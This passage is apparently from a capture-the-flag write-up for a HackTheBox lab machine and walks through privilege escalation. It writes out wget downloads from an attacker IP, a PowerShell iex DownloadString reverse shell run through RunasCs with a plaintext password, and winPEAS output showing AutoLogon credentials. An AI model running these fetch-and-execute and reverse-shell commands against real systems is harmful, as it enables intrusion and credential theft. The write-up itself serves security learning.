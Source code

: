So first of all we need to do is download our RunasCs.exe binary 

```powershell
wget "http://10.10.16.40/RunasCs.exe" -outfile "RunasCs.exe"
```

Next up we can run a command as webservice using the following command, reverse shell we'll re-use the same one we used before but this time with a different port

```powershell
.\RunasCs.exe webservice N1G6G46G@G!j "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.40/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.40 -Port 444" 
```

Then a moment later we'd be greeted with a reverse shell as **webservice**

![Reverse shell as webservice](/assets/img/Analysis/Analysis_16.png)

### Webservice to jdoe

So now that we have a shell as webservice i decided to run winpeas on this machine. First we needed to download the binary to the machine we can do this with the following command

```powershell
C:\inetpub\internal\dashboard\uploads
wget "http://10.10.16.40/winPEASx64.exe" -outfile "winPEASx64.exe"
```

Next i ran winpeas with as following, the log parameter makes it output to a logfile instead of just the screen: 

```powershell
winPEASx64.exe log
```

When inspecting the output we can see that there are some default auto-logon credentials on this machine for the user jdoe
```
.[1;36m.................................... .[1;32mLooking for AutoLogon credentials.[0m
.[1;31m    Some AutoLogon credentials were found.[0m
    DefaultDomainName             :  analysis.htb.
    DefaultUserName               :  jdoe
    DefaultPassword               :  7y4Z4^*y9Zzj
```

Using this password we were able to log into the machine usign evilwinrm
